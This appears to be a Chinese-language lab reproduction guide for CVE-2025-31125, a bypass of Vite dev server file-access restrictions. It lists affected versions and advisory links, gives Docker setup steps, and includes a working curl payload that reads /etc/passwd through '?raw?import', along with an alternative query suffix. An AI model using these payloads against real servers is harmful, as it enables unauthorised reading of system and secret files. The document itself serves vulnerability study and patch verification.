 # Vite开发服务器任意文件读取漏洞绕过（CVE-2025-31125）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 6.2.4, 6.1.3, 6.0.13, 5.4.16 和 4.5.11版本之前，用于限制访问Vite服务允许列表之外的文件的`server.fs.deny`功能可被绕过。通过在URL的`@fs`前缀后增加`?raw?import`或`?import&?inline=1.wasm?init`，攻击者可以读取文件系统上的任意文件。

这个漏洞是[CVE-2025-30208](../CVE-2025-30208/README.zh-cn.md)补丁的绕过。

参考链接：

- <https://github.com/vitejs/vite/security/advisories/GHSA-4r4m-qw57-chr8>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-31125>

## 环境搭建

执行以下命令启动Vite 6.2.3开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:5173`来访问 Vite 开发服务器。

> 注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。

## 漏洞复现

通过在URL后附加`?raw?import`，你就可以绕过这个限制并获取文件内容：

```
curl "http://your-ip:5173/@fs/etc/passwd?raw?import"
```

这个请求将会返回`/etc/passwd`文件的内容：

![](1.png)

除了上面的Payload，你也可以使用`?import&?inline=1.wasm?init`来达到相同的效果。
